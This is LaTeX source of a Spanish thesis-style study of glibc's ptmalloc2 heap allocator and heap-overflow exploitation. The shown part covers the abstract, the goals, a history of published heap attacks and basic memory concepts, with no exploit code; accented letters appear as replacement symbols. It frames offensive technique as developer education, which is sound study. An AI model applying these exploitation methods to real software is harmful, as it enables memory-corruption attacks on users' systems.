\documentclass[titlepage,12pt]{article}
\usepackage[latin1]{inputenc}
\usepackage{geometry}
\usepackage[english,spanish]{babel}
\usepackage{fancyvrb}
\usepackage{tocbibind} 
\usepackage{amsmath, amsthm, amssymb}
\usepackage{varwidth}		  %% Sirve para centrar el verbatim. Exactamente en el hacker manifesto.
\usepackage[bottom]{footmisc} %% Sirve para que los footnote se pongan siempre al final de la pagina
\usepackage{hyperref}
\usepackage{graphicx}	%% Librer�a necesaria para insertar gr�ficos
\usepackage{caption}	%% Librer�a necesaria para personalizar el t�tulo de las figuras y otras cosas
\usepackage{fancybox}	%% Librer�a necesaria para la sombra de las figuras
\usepackage{appendix}	%% Librer�a necesaria para generar ap�ndices bonitos
\usepackage{listings}	%% Librer�a necesaria para generar codigo bonito 
\usepackage{color}
\usepackage{courier}	%% Librer�a necesaria para generar codigo bonito 
\usepackage{comment}	%% Librer�a necesaria para a�adir comentarios Latex1
\usepackage{csquotes} 	%% Something needed to improve biblatex
\usepackage{multicol}   %% To convert the bibliography into a two column text
\usepackage{etoolbox}   %% Para desactivar los errores \hbox en la bibliograf�a
\usepackage[natbib=true, defernums=true]{biblatex}   	%% Librer�a necesaria para crear la bibliograf�a
\bibliography{./Chapters/Bibliografia/Biblio}			%% Archivo donde se almacena el archivo de bibliograf�a


%% Se cargan los diferentes lenguajes especificados abajo
\lstloadlanguages{C}
\lstloadlanguages{bash}

%% Definici�n de las diferentes tonalidades de gris
\definecolor{gray75}{gray}{.75}
\definecolor{gray82}{gray}{.82}
\definecolor{gray97}{gray}{.97}
\definecolor{gray45}{gray}{.45}

%% Comandos necesarios para mostrar las figuras mejoradas
\DeclareCaptionLabelSeparator{flecha}{\ensuremath{ .}\quad}
\captionsetup{labelsep=flecha, justification=centering}

%% Para que los ap�ndices se titulen como Ap�ndices y no Appendices
\renewcommand{\appendixname}{Ap�ndices} 

%% Crea el entorno myindentpar \begin{myindentpar}[1cm]. Tabula el par�grafo x cm.
\newenvironment{myindentpar}[1]
{\begin{list}{}
	{\setlength{\leftmargin}{#1}}
  	\item[]
}
{\end{list}}

%% To use | code | for inline code
\DefineShortVerb{\|} 

%% Parametros para definir el codigo fuente
\lstset{ 
	language=C,                			% choose the language of the code
	%basicstyle=\small,
	basicstyle=\footnotesize\ttfamily,
	%basicstyle=\footnotesize,       	% the size of the fonts that are used for the code
	numbers=left,                   	% where to put the line-numbers
	numberstyle=\tiny,      			% the size of the fonts that are used for the line-numbers
	stepnumber=1,                   	% the step between two line-numbers. If it's 1 each line 
    		                           	% will be numbered
	numbersep=7pt,                  	% how far the line-numbers are from the code
	backgroundcolor=\color{gray82},  	% choose the background color. You must add \usepackage{color}
	showspaces=false,               	% show spaces adding particular underscores
	showstringspaces=false,         	% underline spaces within strings
	showtabs=false,                 	% show tabs within strings adding particular underscores
	frame=single,	                	% adds a frame around the code
	tabsize=2,	                		% sets default tabsize to 2 spaces
	captionpos=b,                   	% sets the caption-position to bottom
	breaklines=true,                	% sets automatic line breaking
	breakatwhitespace=false,        	% sets if automatic breaks should only happen at whitespace
	title=\lstname,                 	% show the filename of files included with \lstinputlisting;
                                		% also try caption instead of title
	extendedchars=true,
	escapeinside={\%*}{*)},         	% if you want to add a comment within your code
	morekeywords={*,...}            	% if you want to add more keywords to the set,
}

\lstdefinestyle{consola} {
	basicstyle=\scriptsize\bf\ttfamily,
	backgroundcolor=\color{gray75},
	numbers=none
}

%% Cambia el caption de los lstlisting a C�digo
\renewcommand{\lstlistingname}{C�digo}
%% Los items de primer nivel tienen un bullet redondo en vez de cuadrado (por defecto)
\renewcommand{\labelitemi}{$\bullet$}

%% Minimiza el fragmentado de listados
\lstnewenvironment{listing}[1][]
   {\lstset{#1}\pagebreak[0]}{\pagebreak[0]}

\begin{comment}

\lstset{ 
	language=[x86masm]Assembler,    % choose the language of the code
	basicstyle=\footnotesize\ttfamily,
	numbers=left,                   % where to put the line-numbers1
	numberstyle=\footnotesize,      % the size of the fonts that are used for the line-numbers
	stepnumber=1,                   % the step between two line-numbers. If it's 1 each line 
	                                % will be numbered
	numbersep=5pt,                  % how far the line-numbers are from the code
	backgroundcolor=\color{gray75}, % choose the background color. You must add \usepackage{color}
	showspaces=false,               % show spaces adding particular underscores
	showstringspaces=false,         % underline spaces within strings
	showtabs=false,                 % show tabs within strings adding particular underscores
	frame=single,	                % adds a frame around the code
	tabsize=2,		                % sets default tabsize to 2 spaces
	captionpos=b,                   % sets the caption-position to bottom
	breaklines=true,                % sets automatic line breaking
	breakatwhitespace=false,        % sets if automatic breaks should only happen at whitespace
	title=\lstname,                 % show the filename of files included with \lstinputlisting;
    	                            % also try caption instead of title
	escapeinside={\%*}{*)},         % if you want to add a comment within your code
	morekeywords={*,...}            % if you want to add more keywords to the set
}
\lstset{
	 language=bash, 
	 frame=Ltb,
     framerule=0pt,
     aboveskip=0.5cm,
     framextopmargin=3pt,
     framexbottommargin=3pt,
     framexleftmargin=0.4cm,
     framesep=0pt,
     rulesep=.4pt,
     backgroundcolor=\color{gray97},
     rulesepcolor=\color{black},
     %
	 basicstyle=\footnotesize\ttfamily,
     showstringspaces = false,
     basicstyle=\small\ttfamily,
     commentstyle=\color{gray45},
     keywordstyle=\bfseries,
     %
     numbers=left,
     numbersep=15pt,
     numberstyle=\tiny,
     numberfirstline = false,
     breaklines=true,
}

\end{comment}

\title {Estudio y explotaci�n del sistema de gesti�n de memoria din�mica en sistemas GNU/Linux}
\author {por Albert L�pez Fern�ndez \\ \url{newlog [at] overflowedminds [dot] net}}
\date {27 de Septiembre de 2012}
\addtolength{\textheight}{2cm}

\begin{document}

\renewcommand{\listtablename}{�ndice de tablas}
\renewcommand{\tablename}{Tabla}
\renewcommand{\refname}{Bibliograf�a}
\renewcommand{\abstractname}{Abstract}

\maketitle
\newpage

\begin{abstract}
Uno de los problemas a los que se enfrentan los estudiosos de la gesti�n de memoria din�mica es la falta de documentaci�n relativa al modo en que se gestiona la memoria din�mica en el sistema operativo GNU/Linux. La resoluci�n de este problema es relevante ya que deber�a permitir asentar las bases para el descubrimiento de nuevas vulnerabilidades en el algoritmo encargado de realizar dicha gesti�n. \bigskip

El objetivo de esta investigaci�n es presentar un marco te�rico sobre el cual fundamentar el estudio de las vulnerabilidades en el algoritmo \textit{ptmalloc2} tal y como est� implementado en la \textit{glibc} 2.12.1 y as� reducir las dificultades que presenta la falta de documentaci�n que se ha mencionado. \\
A tal efecto, la primera fase de esta investigaci�n se bas� en realizar un estudio te�rico del funcionamiento del algoritmo \textit{ptmalloc2}. Posteriormente se realiz� un estudio sobre las vulnerabilidades publicadas de dicho algoritmo, focaliz�ndose en las vulnerabilidades m�s significativas del pasado hasta llegar al estado del arte, de modo que una vez realizado el estudio te�rico de dichas vulnerabilidades se prosigui� con la comprobaci�n emp�rica de la funcionalidad de las t�cnicas establecidas para la explotaci�n de una de las vulnerabilidades m�s relevantes. \bigskip

En el proceso de esta investigaci�n se estableci� cual era el estado del arte real en cuanto a las t�cnicas utilizadas para aprovecharse de las vulnerabilidades del algoritmo \textit{ptmalloc2}. Tambi�n se present� una modificaci�n de una de las t�cnicas existentes en el pasado pero ahora obsoleta, con la cual es posible atacar el algoritmo \textit{ptmalloc2} de manera satisfactoria. \bigskip

Los resultados obtenidos permiten dar un nuevo enfoque a las t�cnicas utilizadas para explotar las vulnerabilidades en la gesti�n de la memoria din�mica, presentando una modificaci�n de una t�cnica utilizada en el pasado con el beneficio de tener menos requisitos que las t�cnicas utilizadas en la actualidad.

\vspace{70pt}

\textbf{Keywords:} \textit{dynamic allocation, heap overflow, heap exploitation, me\-mory corruption, ptmalloc, glibc, unlink, malloc maleficarum}

\end{abstract}

\pagebreak

\section*{Resumen}
\thispagestyle{empty}

El tema elegido para el desarrollo de esta investigaci�n es el estudio de la gesti�n de la memoria din�mica en el sistema operativo GNU/Linux. \bigskip

Esta investigaci�n est� dividida en dos claras partes. La primera de ellas es el estudio del algoritmo que se encarga de realizar dicha gesti�n, llamado \textit{ptmalloc2}. Se detallan las estructuras de datos que se utilizan en la implementaci�n de este algoritmo, el modo en el que se utilizan y cu�l es su funcionalidad. Debido a que la complejidad del  algoritmo es elevada, s�lo se detallan aquellos aspectos que realmente son relevantes para entender los cap�tulos que siguen a este estudio. Este estudio te�rico se lleva a cabo sobre el algoritmo \textit{ptmalloc2} tal y como est� implementado en la librer�a est�ndar de C para sistemas GNU en su versi�n 1.12.1.\\
La segunda parte de esta investigaci�n estudia las vulnerabilidades publicadas de este algoritmo. Debido a la poca informaci�n sobre las vulnerabilidades en el algoritmo tal y como est� implementado hoy en d�a, las t�cnicas que se aprovechan de las vulnerabilidades est�n basadas en versiones anteriores de este algoritmo. Se realiza un estudio de las t�cnicas publicadas desde las m�s antiguas hasta el estado del arte. De este modo se puede tener una idea global de c�mo ha ido evolucionando el algoritmo y las t�cnicas utilizadas para explotarlo. \\
Por esta raz�n, durante la investigaci�n se ir� cambiado la versi�n de la librer�a est�ndar de C sobre la que se trabaja debido a que ciertas vulnerabilidades se han solucionado en sus versiones anteriores.\bigskip

El principal motivo para realizar esta investigaci�n es la poca informaci�n existente sobre la explotaci�n del sistema de gesti�n de la memoria din�mica en el sistema operativo GNU/Linux. Actualmente no es posible ni conocer cu�l es el estado del arte real en este campo debido a la falta de informaci�n sobre el tema. Durante muchos a�os no ha habido ninguna noticia sobre la evoluci�n del algoritmo en cuesti�n, aun cuando han sido publicadas m�ltiples versiones del algoritmo. Actualmente es dif�cil saber si el algoritmo es vulnerable a las t�cnicas de explotaci�n publicadas o por el contrario, dichas vulnerabilidades han sido corregidas. \bigskip

Otro de los motivos que me llev� a la realizaci�n de esta investigaci�n fue que hoy en d�a la mayor�a de empresas o particulares que desarrollan software no son conscientes de los aspectos relativos a su explotaci�n. La ejecuci�n en un sistema de una �nica aplicaci�n vulnerable entre otros cientos o miles de aplicaciones no vulnerables hace que todo un sistema se convierta en un sistema inseguro. Debido a que actualmente la mayor�a de tareas que realizamos las llevamos a cabo con un ordenador al frente, los usuarios no se pueden permitir el lujo de utilizar sistemas inseguros donde la integridad y privacidad de sus datos pueda ser vulnerada. Esta investigaci�n intenta ser un ejercicio de divulgaci�n para que los desarrolladores de software sean conscientes de estos aspectos.

\pagebreak

\setcounter{page}{1}

\tableofcontents

\newpage

\listoftables 

\listoffigures

\pagebreak

\section {Introducci�n}

\bigskip
Este trabajo explica algunos de los m�todos utilizados para explotar software y c�mo evadir las medidas de seguridad que se implementan para evitarlo. La explotaci�n de software se basa en encontrar alg�n tipo de vulnerabilidad en un programa para poder modificar su comportamiento. Esta modificaci�n puede desembocar en la ejecuci�n de c�digo totalmente ajeno al software explotado, en el cierre del software explotado o en la alteraci�n de su l�gica de ejecuci�n. \bigskip

Hoy en d�a, la sociedad vive rodeada de tecnolog�a, la sociedad depende de la tecnolog�a y, a su vez, la tecnolog�a depende completamente del software que se le ha programado. Leemos nuestra correspondencia con el ordenador, nos comunicamos con nuestros m�viles, compramos por internet, nuestros hogares y veh�culos est�n protegidos por sistemas electr�nicos, las comunicaciones mundiales dependen de sistemas inform�ticos, los sensores de aviones y barcos funcionan gracias a su software y centrales t�rmicas o nucleares dependen de los sistemas de control y medici�n que se les ha programado. Es por esta raz�n por la que el software desarrollado por empresas y particulares deber�a basarse en un principio de seguridad total. \bigskip

Actualmente, el software desarrollado no puede permitirse el lujo de s�lo ser funcional o de tener una interfaz gr�fica impresionante. Cuando se trata de software cr�tico -y actualmente la mayor�a de software es cr�tico - es mucho peor tener software funcional e inseguro que, directamente, no tener el software. Acaso alguien tendr�a el valor suficiente como para subir a un avi�n cuando se es consciente de que su software de control es vulnerable y de que cualquier atacante podr�a alterar su rumbo de vuelo? Acaso no es mejor que cien personas no puedan coger un vuelo a que cien personas acaben en el fondo del atl�ntico?\\
Es por esta raz�n por la que se ha desarrollado este documento. Para acercar de un modo sencillo los conceptos de seguridad a nivel de aplicaci�n. Este documento intenta realizar una introducci�n al an�lisis de vulnerabilidades y su explotaci�n. Estos conceptos se explican del modo m�s simple posible para que no s�lo los m�s experimentados puedan entenderlo. Se trata de que sean asequibles para los programadores m�s noveles, pues son estos los que programar�n el software del futuro.\bigskip

Ser�a plausible llegar a la conclusi�n de que para aprender a desarrollar software seguro no es necesario conocer los ataques a los que dicho software est� sometido. Sin embargo, llegar a esta conclusi�n no ser�a m�s que un error. Si un programador no conociera la metodolog�a utilizada por los atacantes jam�s ser�a capaz de anticiparse a sus acciones y siempre ir�a un paso por detr�s. Jam�s podr�a idear un nuevo sistema de defensa sin conocer todos los detalles de un ataque. Si a un programador s�lo se le ense\~nara qu� funciones son vulnerables y cu�les no, c�mo ser�a capaz de programar sus propias funciones sin caer en los mismos errores que sus antecesores? Por esta raz�n este documento explica con m�ximo detalle cuales son algunos de los conceptos y t�cnicas utilizados para vulnerar software. \bigskip

Debido a que esta investigaci�n no est� enfocada al desarrollo de ning�n tipo de software en concreto, se hace imposible realizar una clara separaci�n del contenido te�rico y el contenido pr�ctico. La metodolog�a seguida al desarrollar este trabajo se ha dividido en dos fases. La primera fase se ha basado en realizar un estudio te�rico del funcionamiento del algoritmo \textit{ptmalloc2}. Posteriormente se ha realizado un estudio sobre las vulnerabilidades publicadas de dicho algoritmo, focaliz�ndose en las vulnerabilidades m�s significativas del pasado hasta llegar al estado del arte, de modo que una vez realizado el estudio te�rico de dichas vulnerabilidades se ha proseguido con la comprobaci�n emp�rica de la funcionalidad de las t�cnicas establecidas para la explotaci�n de una de las vulnerabilidades m�s relevantes. \bigskip

De un modo parecido, los conceptos que se tratan en esta investigaci�n est�n relacionados con la metodolog�a utilizada. En la primera parte de esta investigaci�n se realiza un estudio del algoritmo que implementa la gesti�n de la memoria din�mica en el sistema operativo GNU/Linux. De este modo se establecen los fundamentos te�ricos para que el lector sea capaz de comprender los aspectos que se tratan en los cap�tulos que le siguen. En estos cap�tulos se estudian las vulnerabilidades que afectan a la gesti�n de la memoria din�mica y con qu� metodolog�as es posible explotar dichas vulnerabilidades. Llegado al t�rmino de esta investigaci�n el lector tendr� una visi�n global del funcionamiento del algoritmo utilizado para la gesti�n de la memoria din�mica, as� como el conocimiento necesario para proseguir con la b�squeda de nuevas vulnerabilidad en el c�digo de dicho algoritmo. \bigskip

A continuaci�n se da una breve descripci�n sobre aquellos cap�tulos de esta investigaci�n en los que se desarrollan los conceptos t�cnicos:\\
En el Cap�tulo 1 se realiza una introducci�n a los conceptos b�sicos de esta investigaci�n. \\
En el Cap�tulo 2 se presenta un estudio del algoritmo encargado de realizar la gesti�n de la memoria din�mica en el sistema operativo mencionado. Se presentan las estructuras de datos utilizadas y se detalla la utilidad de las m�s relevantes.\\
En el Cap�tulo 3 se estudia la vulnerabilidad m�s significativa que en un pasado tuvo el algoritmo. Se detalla cu�les eran las t�cnicas utilizadas para explotarla, se presenta una nueva t�cnica no publicada hasta el momento y se detalla c�mo se solucion� dicha vulnerabilidad.\\
En el Cap�tulo 4 se estudia una de las t�cnicas m�s actuales para vulnerar la gesti�n de la memoria din�mica.\\
En el Cap�tulo 5 se reflexiona sobre las t�cnicas estudiadas en los cap�tulos previos, sus ventajas e inconvenientes. Adem�s se presenta una modificaci�n de la t�cnica estudiada en el Cap�tulo 3 de modo que sea aplicable en la actualidad.\bigskip

Para la realizaci�n de esta investigaci�n se ha trabajado con la distribuci�n de GNU/Linux Ubuntu en su versi�n 10.10. El c�digo fuente escrito est� pensado para ejecutarse en arquitecturas Intel x86 de 32 bits.

\pagebreak

\subsection{Trabajo relacionado}
\label{sec:related_work}
Antes de continuar, cabe mencionar que este documento se cimienta en los conceptos explicados en \textit{Introducci�n a la explotaci�n de software en sistemas Linux}\cite{IALEDSESL}, escrita como pre�mbulo de esta investigaci�n.\bigskip

El documento mencionado explica dos conceptos muy diferentes.\\
El primero de ellos es el \textit{shellcoding}. El desarrollo de \textit{shellcodes} se basa en la programaci�n en ensamblador de ciertas rutinas que permitan realizar las acciones que un programador necesite una vez se haya vulnerado el software investigado. La programaci�n de \textit{shellcodes} es bastante compleja ya que cada una de las rutinas programadas debe cumplir ciertas restricciones y, debido a estas restricciones, el programador no puede utilizar todas las funcionalidades que proporciona el lenguaje ensamblador.\\
El segundo concepto tratado explica el modo de vulnerar software aprovechando los desbordamientos de b�fers en la regi�n de memoria llamada \textit{stack}. Este tipo de vulneraci�n de software es parecida a la que se explica en esta investigaci�n, pero que implica el \textit{heap}, sin embargo, la explotaci�n de desbordamientos en el \textit{heap} es mucho m�s ardua.\bigskip

Se recomienda al lector tener un dominio b�sico de los conceptos tratados en la investigaci�n mencionada para poder seguir la investigaci�n actual sin ning�n tipo de problema.

\pagebreak

%\section{Explotaci�n del heap}

\subsection{Objetivos}

El primer objetivo de esta investigaci�n es desarrollar toda la teor�a relacionada con el funcionamiento del \textit{heap} de modo que el lector sea capaz de entender todos los conceptos que se explicar�n posteriormente. \\
El funcionamiento del \textit{heap} no es algo trivial y, por lo tanto, uno podr�a empezar a divagar e intentar explicar todos sus mecanismos, obteniendo al final un documento de cientos de p�ginas. Sin embargo, la descripci�n que se realizar� en esta investigaci�n no busca detallar todos los conceptos relativos a su funcionamiento, sino desarrollar todos aquellos aspectos, suficientes y necesarios, para que el lector sea capaz de entender aquello que se desarrollar� como segundo objetivo de esta investigaci�n. \\
Cabe destacar que la explicaci�n te�rica del funcionamiento del \textit{heap} no s�lo se realiza para que el lector pueda entender los conceptos que se detallar�n en esta investigaci�n, sino que tambi�n busca formar al lector de modo que una vez haya entendido los conceptos que aqu� se retratan, sea capaz de ir un paso m�s all� y descubrir por �l mismo nuevas vulnerabilidades en los algoritmos implicados o nuevas medidas de seguridad para evitar nuevas vulnerabilidades. \bigskip

El segundo objetivo de esta investigaci�n es presentar el modo en el que se han estado explotando hasta el momento las vulnerabilidades existentes en la implementaci�n del \textit{heap}. Los contenidos se desarrollar�n de modo que se empiece detallando las t�cnicas con las que se empez� a vulnerar la gesti�n de la memoria din�mica en Linux y se ir� evolucionando hacia las t�cnicas m�s modernas descritas \textit{Phantasmal Phantasmagoria}. \\
\textit{Phantasmal} es un \textit{hacker} que desarroll� un conjunto de teor�as enfocadas a la explotaci�n del \textit{heap} en una �poca en la que se cre�an corregidas las vulnerabilidades existentes y donde parec�a que no hab�a nadie capaz de ir un paso m�s all� y descubrir nuevos errores. \\
As� pues, \textit{Phantasmal Phantasmagoria}, con las siguientes palabras, presentaba uno de los textos m�s reveladores sobre vulnerabilidades en el \textit{heap}:
\begin{center}
\textit{It is for this reason, a small suggestion of impossibility, that I present the Malloc Maleficarum.}
\end{center}
Y as� es como comparti� con el resto de \textit{hackers} del mundo, no uno, sino cinco posibles m�todos para vulnerar la seguridad de la gesti�n de memoria din�mica en sistemas GNU/Linux. \bigskip

Aun as�, si el segundo objetivo de este apartado fuera simplemente explicar lo que ya explic� \textit{Phantasmal} en su texto, este apartado no tendr�a ninguna raz�n de ser. As� pues, d�nde yace la problem�tica? Principalmente en que el texto mencionado se escribi� en 2005 dando tan s�lo conceptos te�ricos, y hasta 2009 no se volvi� a escribir sobre el tema.\\
Fue en 2009 cuando \textit{blackngel} puso en pr�ctica los conceptos explicados por \textit{Phantasmal}, y desde 2009 hasta 2012 no ha habido ninguna otra noticia al respecto. En 2009, \textit{blackngel} demostr� emp�ricamente como algunas de las t�cnicas explicadas por \textit{Phantasmal} a�n eran vigentes, y para ello utiliz� la versi�n 2.8 de la librer�a \textit{glibc}\footnote{La librer�a glibc es la encargada de implementar el sistema de gesti�n de memoria din�mica en sistemas GNU/Linux.} \bigskip

Esto demuestra que durante cuatro a�os - de 2005 a 2009 - y despu�s de cinco nuevas versiones de la librer�a \textit{glibc} - de la 2.3 a la 2.8 -  muchas de las vulnerabilidades explicadas por \textit{Phantasmal} a�n no se hab�an corregido. Y esto nos lleva a definir espec�ficamente el segundo objetivo de este apartado, que no es m�s que conocer cual es el verdadero estado del arte en la explotaci�n del \textit{heap}, y si las teor�as de \textit{Phantasmal} siguen vigentes 7 a�os despu�s de su publicaci�n. De no ser as�, se detallar� el modo en el que se han solucionado dichas vulnerabilidades y, adem�s, durante el transcurso de la investigaci�n se intentar�n encontrar nuevos vectores de ataque que permitan la vulneraci�n del algoritmo encargado de implementar el \textit{heap}. \bigskip

Por �ltimo, cabe destacar que en el presente documento no se detallar�n todas las t�cnicas que se presentaron en el texto de \textit{Phantasmal}, sino que se estudiaran aquellas que sean las m�s representativas y que permitan al lector obtener un punto de vista general sobre cual acostumbra a ser el vector de ataque en estos casos, para que de este modo, sea el mismo lector el que se pueda adentrar en los m�s oscuros recovecos del sistema de gesti�n de memoria din�mica del sistema operativo y poder discernir por cuenta propia posibles vulnerabilidades a�n por descubrir.



\pagebreak

\subsection{Estado del arte}

En el mundo de la explotaci�n de software, el trayecto dio comienzo con uno de los primeros gusanos inform�ticos llamado \textit{morris worm} en el 1988\footnote{Informaci�n sobre el gusano Morris: \\ \url{http://en.wikipedia.org/wiki/Morris_worm}}. Esta ser�a la primera muestra de la importancia que tendr�a en un futuro el hecho de poder realizar una inyecci�n de datos en memoria y, consiguientemente, corromper los datos almacenados. \bigskip

Sin embargo, no fue hasta 1999 cuando Matt Conover realiz� el primer trabajado divulgativo sobre c�mo desbordar variables ubicadas en la regi�n de memoria llamada \textit{heap} \cite{WOHO}. Y en el 2000 fue cuando sali� a la luz el primer \textit{exploit} que aprovechaba un desbordamiento de b�fer en el \textit{heap}\cite{JCMPV}, y la publicaci�n de dicho \textit{exploit} vino de la mano del ilustre \textit{Solar Designer}, conocido por esta y muchas otras contribuciones que han hecho que, hoy en d�a, la seguridad de nuestros sistemas sea significativamente mejor que en el pasado. \bigskip

En la legendaria \textit{e-zine} \textit{Phrack}, se escribieron dos art�culos en el mismo n�mero en el que se explicaban nuevas t�cnicas aplicables al desbordamiento de b�fers en el \textit{heap}. El primer art�culo se llam� \textit{Vudo malloc tricks} escrito por \textit{MaXX}\cite{VAOSBTEMP} y explicaba el funcionamiento del algoritmo encargado de realizar la gesti�n de memoria din�mica, por aquel momento \textit{Doug Lea's malloc()} y tambi�n explicaba algunos m�todos para conseguir la ejecuci�n de c�digo arbitrario a partir del desbordamiento de b�fers en el \textit{heap}. El segundo art�culo fue an�nimo y se titul� \textit{Once upon a free()}\cite{OUAF} y se focaliz� en explicar la implementaci�n del \textit{System V malloc}.

Fue en 2003 cuando \textit{jp} escribi�, tambi�n en la \textit{Phrack}, el art�culo titulado \textit{Advanced Doug Lea's malloc exploits}\cite{ADLME} donde se presentaban nuevas t�cnicas de explotaci�n y se sentaban las bases para lo que estaba por venir.\bigskip

Todas estas t�cnicas estuvieron vigentes hasta que en 2004 la librer�a donde estaba el c�digo encargado de implementar la gesti�n de la memoria din�mica se mejor� haciendo que todas las t�cnicas mostradas hasta el momento quedaran obsoletas.

Fue por esta raz�n por la cual \textit{Phantasmal Phantasmagoria} escribi� el art�culo titulado \textit{The Malloc Maleficarum}\cite{MM}, donde se recog�an un conjunto de t�cnicas te�ricas por las cuales ser�a posible evadir las docenas de mejoras, restricciones y comprobaciones que se a�adieron al algoritmo. Y lo escribi� simplemente por el reto interno que tiene cada \textit{hacker} de superar los l�mites impuestos cuando alguien le asegura que algo es imposible.\\
Este texto fue una revoluci�n en cuanto a plantear las cosas de un modo diferente y, de nuevo, cimentar los conocimientos sobre los que se basar�an nuevos textos. 

Finalmente fue \textit{blackngel} con su \textit{Malloc Des-Maleficarum}\cite{MDM} en 2009 y con \textit{The House of Lore: Reloaded}\cite{THOLR}, quien dio un cariz emp�rico a cada una de las t�cnicas explicadas por \textit{Phantasmal Phantasmagoria}.

\pagebreak

\subsection{Sobre el heap}
\label{sec:heap_theory_introduccion}

El \textit{heap} es la regi�n de memoria que utilizan los programas para almacenar aquellos datos de los cuales, en un principio, no se sabe su tama�o.

Debido a que no se conoce el tama�o de los datos en tiempo de compilaci�n, el programador debe pedir espacio para dichos datos con ciertas instrucciones que proporciona el sistema operativo. Del mismo modo, el programador debe estipular cuando se puede liberar el espacio reservado para los datos. Todo este proceso ocurre en tiempo de ejecuci�n, que es cuando se conoce el tama�o de los datos a almacenar. \bigskip

Dado que el tama�o de los datos no es conocido de antemano, no es posible utilizar estructuras de datos tales como los \textit{stack frames}\footnote{Conceptos como \textit{stack} o \textit{stack frame} se han tratado en la investigaci�n citada en el apartado \ref{sec:related_work}.}. Es por esta raz�n que para gestionar el almacenamiento de dichos datos es necesario un conjunto de algoritmos mucho m�s complejos. Este conjunto de algoritmos son los que se encargan de lo que se conoce como la gesti�n de memoria din�mica. Cabe destacar que se habla de memoria din�mica debido a que el tama�o de los datos almacenados en el \textit{heap} puede variar en cualquier momento, ya sea aumentando o reduciendo su tama�o o almacenando y eliminando otros datos. \bigskip

Todas estas funcionalidades est�n implementadas en una librer�a llamada \textit{glibc} o \textit{GNU C Library}\footnote{http://www.gnu.org/software/libc/libc.html} que, como su nombre indica, es la librer�a est�ndar de lenguaje C de GNU\footnote{http://www.gnu.org/}. Esta librer�a se acostumbra a utilizar en sistemas GNU o sistemas que incorporen un n�cleo Linux. La \textit{glibc} implementa muchas de las funcionalidades que los programadores o el propio sistema operativo utilizan continuamente. Funciones como \textit{printf()} o las llamadas al sistema\footnote{El concepto de llamada al sistema o \textit{syscall} se ha tratado en la investigaci�n citada en el apartado \ref{sec:related_work}} est�n implementadas en la \textit{glibc}. En un principio la gesti�n de la memoria din�mica que se implementaba en la librer�a \textit{glibc} estaba basada en el c�digo implementado por \textit{Doug Lea} y se conoc�a coloquialmente como \textit{dlmalloc}\footnote{Informaci�n sobre \textit{dlmalloc}: \url{http://g.oswego.edu/dl/html/malloc.html}}, sin embargo, a partir de la versi�n 2.3.x de la \textit{glibc} se incluy� una nueva implementaci�n llevada a cabo por Wolfram Gloger basada en la implementaci�n ya existente de \textit{Doug Lea} pero con soporte para procesos con m�s de un hilo o \textit{thread}. Esta nueva implementaci�n se conoci� como \textit{ptmalloc} y es la que se estudiar� en esta investigaci�n.\footnote{Informaci�n sobre \textit{ptmalloc}: \url{http://www.malloc.de/en/}}\bigskip

Lo que importa es que los algoritmos utilizados en el \textit{heap} y las funciones para almacenar, redimensionar o liberar datos est�n implementadas en la \textit{glibc}. As� que esta librer�a es la que se estudiar� a continuaci�n. Recalcar que en esta investigaci�n se utiliza la versi�n de la librer�a 2.12.1. Dicha versi�n es la que se encuentra en el sistema operativo Ubuntu 10.10. Para conocer cual es la versi�n de \textit{glibc} de un sistema operativo con n�cleo Linux basta con ejecutar el siguiente comando en la \textit{shell}: \lstinline !/lib/libc.so.6! \bigskip

As� pues, en los pr�ximos apartados se detallar� el funcionamiento de los algoritmos encargados de gestionar el almacenamiento de datos en el \textit{heap}.\bigskip

\pagebreak

\subsection{Conceptos B�sicos}
\label{sec:heap_basic_concepts}

Antes de entrar de lleno con la definici�n de las estructuras de datos relevantes para la gesti�n de memoria din�mica se deben asentar algunos conceptos b�sicos para que el lector se ubique.\bigskip

Cuando se habla de regiones de memoria, se debe tener claro que dichas regiones normalmente no se comparten entre procesos. Por ejemplo, si se est�n ejecutando dos procesos independientes, cada uno tendr� su propio \textit{stack} o \textit{heap}. Sin embargo, si se revisaran las direcciones de memoria donde se ubican las variables de dichos procesos, �stas podr�an ser iguales. Esto se debe a que cuando el programador obtiene la direcci�n en memoria de una variable, dicha direcci�n es lo que se conoce como \textit{direcci�n virtual}. La direcci�n obtenida no es la direcci�n f�sica real donde se ubica la variable dentro de la memoria RAM sino que el n�cleo del sistema operativo se encarga de realizar la traducci�n entre direcciones virtuales y direcciones reales a partir de lo que se conoce como \textit{tablas de p�ginas}.\cite{UM}\bigskip

Gracias a este procedimiento, los procesos siempre se acostumbran a cargar en las mismas direcciones virtuales de memoria. Aunque, tal y como se ver� en los pr�ximos apartados, hace un tiempo, debido a medidas de seguridad, se a�adi� cierto nivel de aleatoriedad en la direcci�n de carga de los diferentes segmentos de memoria de un proceso, tales como el \textit{stack} o el \textit{heap}. Esta t�cnica se conoce como ASLR y se lleva a cabo para que un atacante remoto no pueda conocer de antemano en qu� posici�n exacta de memoria se cargan ciertos datos. \bigskip

En la Figura \ref{fig:process_memory_layout} se puede ver como se ubicar�an los datos en memoria una vez se ejecutara un binario. Aclarar que cuando se habla de binario o programa, normalmente se hace referencia al c�digo fuente o al ejecutable ELF, sin embargo, cuando se habla de proceso se hace referencia al conjunto de datos que se cargan en memoria cuando se ejecuta un binario.\\
Lo que se muestra en la Figura \ref{fig:process_memory_layout} es la estructura en memoria de un proceso en el sistema operativo, no la estructura de un ejecutable ELF\footnote{Para m�s informaci�n sobre ejecutables ELF se puede consultar:\\ \url{http://en.wikipedia.org/wiki/Executable_and_Linkable_Format}\\ \url{http://www.skyfree.org/linux/references/ELF_Format.pdf}}. \bigskip

\begin{figure}[!htbp]  
    \centering
